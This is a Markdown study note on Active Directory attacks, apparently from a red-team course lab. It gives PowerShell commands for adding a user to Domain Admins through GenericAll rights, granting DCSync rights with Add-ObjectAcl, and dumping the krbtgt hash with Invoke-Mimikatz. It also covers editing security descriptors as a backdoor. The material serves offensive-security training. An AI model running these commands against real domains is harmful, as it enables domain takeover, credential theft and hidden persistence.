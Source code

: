 ## <span style="color:lightgreen">Abusing Generic-All Access</span>

### <span style="color:#F1C232">Abusing Full-Control</span>

```powershell
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'user1' -Verbose
```

# <span style="color:lightblue">ACL - DCSync</span>

* There are even more interesting ACLs which can be abused.

* For example, with DA privileges, the ACL for the domain root can be modified to provide useful rights like FullControl or the ability to run "DCSync".

## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Check if user has replication rights with PowerView
- [x] 2. If no replication rights for the users, add them from a Domain Administrator shell
- [x] 3. Get the hashes of krbtgt or any other user we want

## <span style="color:lightgreen">PowerView</span>

### <span style="color:#F1C232">1. Add Rights for DCSync</span>

```powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=domain,DC=local' -PrincipalSamAccountName student1 -Rights DCSync -Verbose
```

## <span style="color:lightgreen">Invoke-Mimikatz</span>

### <span style="color:#F1C232">2. Execute DCSync</span>

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

# <span style="color:lightblue">ACL - Security Descriptors</span>

* It is possible to modify Security Descriptors (security information like Owner, primary group, DACL and SACL) of multiple remote access methods (securable objects) to allow access to non-admin users.
* **Administrative privileges** are required for this.
* It, of course, works as a very useful and impactful backdoor mechanism.
* Security Descriptor Definition Language defines the format which is used to describe a security descriptor. SDDL uses ACE strings for DACL and SACL:
```console
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
```
* ACE for built-in administrators for WMI namespaces
```console
A;Cl;CCDCLCSWRPWPRCWD;;;SID
```
